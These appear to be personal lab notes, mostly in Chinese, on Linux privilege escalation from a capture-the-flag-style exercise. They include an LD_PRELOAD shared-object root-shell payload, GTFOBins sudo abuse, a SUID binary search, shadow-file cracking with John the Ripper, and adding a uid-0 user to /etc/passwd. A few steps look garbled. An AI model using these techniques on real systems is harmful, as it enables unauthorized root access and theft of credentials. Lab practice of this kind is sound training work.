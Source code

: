 			--> 檢查 LD_PRELOAD（使用 env_keep 選項）
				=> sudo -l
					=> env_keep+=LD_PRELOAD
					
			--> 編寫一個簡單的 C 程式碼編譯為共享物件（.so 副檔名）文件
				=> create shell.c : 			
					#include <stdio.h>
					#include <sys/types.h>
					#include <stdlib.h>

					void _init() {
					unsetenv("LD_PRELOAD");
					setgid(0);
					setuid(0);
					system("/bin/bash");
					}	
				
				=> run : gcc -fPIC -shared -o shell.so shell.c -nostartfiles	
					--> output a shell.so file
						
			--> 使用 sudo 權限和指向我們的 .so 檔案的 LD_PRELOAD 選項來執行程式
				=> sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
		
		Task : 
			--> ssh karen@10.10.188.151 : Password1
			--> sudo less /etc/shadow
				=> 在 /etc/shadow 末尾寫入 !/bin/bash
				--> cat flag2.txt	
			--> 使用 Nmap 產生 root shell :
				--> https://gtfobins.github.io/ : search nmap -> sudo 
				-->  sudo nmap --interactive
			--> Hash password : cat /etc/shadow

			
### SUID : 
		--> ssh karen@10.10.65.78 | Password1
		--> SUID（設備使用者識別）和 SGID（設備群組識別）而改變
		--> 列出設定了 SUID 或 SGID 位元的檔案 :
			--> find / -type f -perm -04000 -ls 2>/dev/null
				--> 將錯誤訊息重定向到 /dev/null : 2>/dev/null 
		--> 將此清單中的可執行檔與 GTFOBins ( https://gtfobins.github.io ) 進行比較
		
		--> Nano 文字編輯器的 SUID 位元設定允許我們使用檔案擁有者的權限建立、編輯和讀取檔案
		
		--> 兩個基本的權限升級選項 : 
			--> 讀取檔案/etc/shadow
			--> 將我們的用戶新增至/etc/passwd.
		
		讀取檔案/etc/shadow : need root
		
		--> unshadow工具 : 建立一個可由John the Ripper破解的檔案
			--> unshadow passwd.txt shadow.txt > passwords.txt
			--> sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt

		
		
		--> 新增具有 root 權限的新使用者
			--> 希望新用戶擁有的密碼的雜湊 : 
				=> Hash password : openssl passwd -1 -salt YHM [assword1
				=> Add to /etc/passwd
					=> hacker:0:0:root:/root:/bin/bash
				=>切換用戶 : su hacker
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> sudo -l 
				=> (All:ALL) 
				--> sudo su  
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
		--> Task : 
			--> ssh karen@10.10.52.218 Password1